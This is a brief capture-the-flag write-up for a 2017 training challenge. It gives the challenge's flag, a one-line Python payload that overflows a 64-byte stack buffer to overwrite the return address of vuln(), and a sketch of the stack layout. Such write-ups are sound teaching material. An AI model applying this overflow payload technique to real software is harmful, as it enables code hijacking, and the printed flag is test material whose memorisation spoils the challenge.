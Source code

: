 # CTF101 2017: Challenge 2

## Type of challenge 

- Stack buffer overflow
- Overwrite return address

## Flag 

```
ctf{conquered_the_impossible}
```

---

## Exploit

```
python -c 'print "a" * 68 + "\x8b\x84\x04\x08"' | ./impossible
```

### Notes

- Overwrite the return address of the `vuln()` function, where the stack looks like as follows, from `$esp`:
    - (`$esp`)
    - 64 bytes: Contents of `char buf[64]`
    - (`$ebp`)
    - 4 bytes: Main frame pointer
    - 4 bytes: Return address
